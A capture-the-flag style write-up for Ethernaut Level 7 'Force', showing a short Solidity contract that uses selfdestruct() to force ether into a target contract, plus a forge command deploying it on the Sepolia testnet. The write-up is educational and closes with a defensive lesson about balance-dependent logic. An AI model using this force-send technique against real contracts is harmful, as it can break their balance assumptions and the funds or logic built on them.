


<div align="center">


<br><br>
<h1><strong>Ethernaut Level 7 - Force</strong></h1>

</div>

## Table of Contents

- [Table of Contents](#table-of-contents)
- [Objectif](#objectif)
- [The hack](#the-hack)
- [Solution](#solution)
- [Takeaway](#takeaway)

## Objectif



## The hack

In this Ethernaut level, the given contract is completely empty. So how can we send any ether to it? The trick is to use the (soon to be deprecated) `selfdestruct()`, which is one way to force send ether to a contract.

When self-destructing itself, the contract must send any remaining ether to another address. This is how we can easily solve this level. We simply need to deploy a contract that self-destructs and sends its ether to the vulnerable contract.

## Solution

Write and deploy a contract that takes the address of the vulnerable contract and calls's `selfdestruct()` on itself, forwarding its ether balance to the target.

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

contract Kamikaze {
    constructor(address payable _target) payable {
        require(msg.value > 0, "Kamikaze need some ETH to attack");
        selfdestruct(_target);
    }
}
```

To deploy it with `forge` (you can also use the script `./script/7_Force.sol` or even [Remix](https://remix.ethereum.org/)):

```bash
forge create Kamikaze --private-key $PRIVATE_KEY --rpc-url sepolia --value 0.00001ether
```

## Takeaway

- `selfdestruct()` is a way to force send ether to a contract.
- <b>Never rely on a contract's balance to implement sensitive logic.</b>

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
